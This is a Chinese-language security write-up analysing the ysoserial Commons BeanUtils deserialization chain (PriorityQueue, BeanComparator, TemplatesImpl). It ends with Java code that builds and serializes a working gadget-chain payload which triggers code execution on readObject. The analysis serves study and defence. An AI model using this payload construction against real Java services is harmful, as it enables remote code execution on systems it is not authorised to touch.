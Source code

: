 ```yaml
---
description: priorityQueue+BeanComparator+Java泛型的类型擦除+TemplatesImpl
---
```


# Java反序列化之Commons beanUtils

以下内容引自「大专栏」发表于 2020-03-18的「[ysoserial分析系列：一步步写Commons beanUtils利用](https://www.dazhuanlan.com/2020/03/18/5e71a8fec8f35/)」，具体内容已经是精简后的版本：

## 分析及运行环境 <a id="&#x5206;&#x6790;&#x53CA;&#x8FD0;&#x884C;&#x73AF;&#x5883;"></a>

  commons-beanutils:1.9.2，java 1.7

## TemplatesImpl <a id="TemplatesImpl"></a>

  见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)，目的是调用getOutputProperties方法。

## BeanComparator <a id="BeanComparator"></a>

![](https://xiaozhicai.github.io//images/beanutils_field.png)

  BeanComparator实现了Comparator接口，可以实现javaBean的比较。

  成员变量 String:property指定了用于对比的字段。

### compare方法 <a id="compare&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare.png)

  当对javaBean进行比较时，会自动调用compare方法 ，该方法中会获得property指定的属性。

  例如javaBean中含有成员变量String:name和int：age，若在BeanComparator中指定property为age，则将按照age的取值作为javaBean比较时的依据。

  于是可知，若被比较的javaBean为恶意TemplatesImpl，且设置BeanComparator的成员变量property为outputProperties，在调用栈中会存在TemplatesImpl.getOutputProperties可以触发恶意代码。

### 部分利用链构造与调试 <a id="&#x90E8;&#x5206;&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare_test.png)

  接下来的构造思路，就是找到反序列化时自动调用compare方法的地方

## priorityQueue <a id="priorityQueue"></a>

![](https://xiaozhicai.github.io//images/priorityqueue.png)

  PriorityQueue是一个基于优先级的队列。优先级队列的元素默认按照其自然顺序进行排序。如果构造构造队列时提供的Comparator，则根据Comparator.compare方法进行排序。

### readObject方法 <a id="readObject&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/queue.readobject.png)

  该方法在依次对元素进行反序列化后，调用heapify\(\)进行排序。若使用了比较器，则调用siftDownUsingComparator函数进行排序。

### siftDownUsingComparator方法 <a id="siftDownUsingComparator&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/sifdown.png)

  该方法调用Comparator.compare，对元素进行比较和排序。在构造队列时，如果使用BeanComparator，则将会调用到BeanComparator.compare。

### 利用链构造与调试 <a id="&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

  在上一个调用链的基础上，直接构造使用了BeanComparator的priorityQueue。并将恶意priorityQueue添加到队列中。

![](https://xiaozhicai.github.io//images/beanutils1.png)

  通过运行结果可以看到异常，不能执行到序列化操作。为了避免这个异常，我们需要现在队列中添加其他类型的元素，再通过反射修改为恶意TemplatesImpl。

  构造一个BeanComparator，设置成员变量property的取值为A，  
在priorityQueue中添加的元素要求：拥有名称为A的成员变量，且提供了访问A的方法（如getA）。

  ysoserial使用的中转为BigInteger，该类含有成员变量lowestSetBit，并提供了getLowestSetBit方法。因此设置BeanComparator的property属性为“lowestSetBit”，并向queue中添加BigInteger类型的元素，添加属性时就会调用BeanComparator.compare，按照lowestSetBit对BigInteger对象进行排序。

![](https://xiaozhicai.github.io//images/ysoserialbeanutils.png)

  在较高版本的jdk中，BigInteger的成员变量lowestSetBit即将废弃。为了更好地理解整个利用链，这里换一个中介，直接使用BeanComparator作为中介。

  BeanComparator含有成员变量property，且提供了公共方法setProperty和getProperty访问该变量。

  构造priorityQueue时，使用BeanComparator为比较器并设置property为“property”。在队列中添加的元素为BeanComparator类对象。然后通过反射修改priorityQueue的成员变量queue数组为存放恶意priorityQueue的数组。重新修改比较器的property取值为“outputProperties”。这样在反序列化后对元素排序时，将会调用TemplatesImpl.getOutputProperties，触发恶意代码。

![](https://xiaozhicai.github.io//images/beanutils3.png)

## 完整代码 <a id="&#x5B8C;&#x6574;&#x4EE3;&#x7801;"></a>

  构造含有恶意字节码的TemplatesImpl的代码见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)

```java
TemplatesImpl maliciousTemplatesImpl = (TemplatesImpl) Generator.getTemplateImpl();
BeanComparator comparator = new BeanComparator("property");
//comparator.compare(maliciousTemplatesImpl, maliciousTemplatesImpl);
//使用BeanComparator为中介，ysoserial中使用的是BigInteger
PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
priorityQueue.add(new BeanComparator("test"));
priorityQueue.add(new BeanComparator("test"));
	
//重修修改BeanComparator的property属性
comparator.setProperty("outputProperties");

Object [] innerQueue = {maliciousTemplatesImpl,maliciousTemplatesImpl};
Class PriorityQueueClass = Class.forName("java.util.PriorityQueue");
Field queue = PriorityQueueClass.getDeclaredField("queue");
queue.setAccessible(true);
queue.set(priorityQueue, innerQueue);

String filename = "/beanUtils_payload.ser";
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
oos.writeObject(priorityQueue);
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
ois.readObject();
```

## 参考文献

* Java 反序列化之 CommonsBeanUtils 分析：[https://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/](https://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/)
* Java泛型的类型擦除：[https://www.cnblogs.com/joeblackzqq/p/10813143.html](https://www.cnblogs.com/joeblackzqq/p/10813143.html)
* ComparatorChain、BeanComparator用法示例\(枚举类型排序转）：[https://www.cnblogs.com/zhangmingcheng/p/5737593.html](https://www.cnblogs.com/zhangmingcheng/p/5737593.html)
* java反序列化工具ysoserial分析 – angelwhu：[http://www.vuln.cn/6295](http://www.vuln.cn/6295)
* 
